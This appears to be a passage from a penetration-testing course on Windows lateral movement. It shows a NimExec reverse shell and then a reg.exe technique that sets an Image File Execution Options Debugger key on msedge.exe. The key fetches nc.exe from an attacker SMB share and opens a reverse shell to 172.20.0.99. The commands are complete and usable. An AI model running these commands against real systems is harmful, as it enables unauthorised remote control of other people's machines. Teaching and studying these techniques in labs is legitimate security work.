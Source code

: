 Once we execute the tool with the above parameters, we are going successfully establish a reverse shell connection:

```shell-session
BusySec@htb[/htb]$ nc -lvnp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 51096

PS C:\Windows\system32>
```

**Note:** The instructions for compiling [NimExec](https://github.com/frkngksl/NimExec) are on GitHub. We will not provide an executable, but we encourage the student to complete the compilation process.

### Reg.exe

Having remote access to the registry with write permissions effectively provides Remote Code Execution (RCE) capabilities. This process utilizes the `winreg` SMB pipe. Typically, the remote registry service is enabled by default only on server-class operating systems.

We can leverage the program launch handler to move laterally on the network, modifying a registry key to a program frequently used on the target host; we could achieve remote code execution almost immediately.

Before we proceed with `reg.exe` for lateral movement, we must set up an SMB server to host our payload. We will be using [nc.exe](https://github.com/int0x33/nc.exe/) as our payload to get a reverse shell:

```shell-session
BusySec@htb[/htb]$ sudo python3 smbserver.py share -smb2support /home/plaintext/nc.exe
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

In our attack host we execute our `Netcat` listener:

```shell-session
BusySec@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
```

Now, we can execute `reg.exe` to add a new registry key to Microsoft Edge (`msedge.exe`). The idea is that once `msedge.exe` is executed, it will also execute our specified payload. We must specify the full path of the subkey or the entry to be added with the domain name `add \\<domain>\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe`. `/v Debugger` specifies the name of the add registry entry and will ensure that our payload gets executed, `/t reg_sz` specifies the datatype of a Null-terminated string, and finally, we can type our payload `/d <payload>`:

```powershell-session
PS C:\Tools> reg.exe add "\\srv02.inlanefreight.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\172.20.0.99\share\nc.exe && nc.exe -e \windows\system32\cmd.exe 172.20.0.99 8080"

The operation completed successfully.
```
